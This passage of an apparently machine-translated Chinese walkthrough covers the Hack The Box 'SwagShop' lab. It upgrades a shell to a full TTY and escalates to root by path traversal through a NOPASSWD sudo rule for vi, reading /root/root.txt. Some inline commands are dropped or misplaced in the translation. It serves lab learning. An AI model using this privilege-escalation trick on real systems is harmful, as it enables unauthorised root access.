 从那里我可以抓住：`user.txt`

    $ cat user.txt 
    a4488772...
    

## Privesc 到 root

### 外壳升级

现在我有一个 shell，我将它升级到一个完整的 tty，这将允许我运行像 和 这样的命令，以及制表符完成和箭头键。我不会在每篇文章中都显示这一点，但每次我在Linux上获得shell时，我都会这样做。`su``vi`

很难显示，因为终端被清除，但步骤是：

1.  `python -c 'import pty;pty.spawn("/bin/bash")'`. 也有效。`python3`
2.  按 Ctrl-z 键到背景外壳。在本地提示符下，.`stty raw -echo`
3.  `fg`将外壳带回前面。
4.  `reset`以重新初始化终端。如果系统提示输入“终端类型”，请输入 。`screen`
5.  在重置外壳中，.`export TERM=screen`

我还可以在本地 shell 上使用它来查看行和列。然后，我可以通过运行 来为远程 shell 设置它。这将允许诸如或使用全屏之类的东西。`stty -a``stty rows [#rows] columns [#columns]``vi``less`

### 列举

`sudo -l`显示我可以在没有密码的情况下在网络目录中运行：`sudo``vi`

    www-data@swagshop:/home/haris$ sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    

### 读取标志

到达标志的最快路径就是用 打开它。根据上面的输出，我将运行：`vi``sudo`

    www-data@swagshop:/$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
    

    c2b087d6...
    
       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password
    
                       PS: Use root flag as password!
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~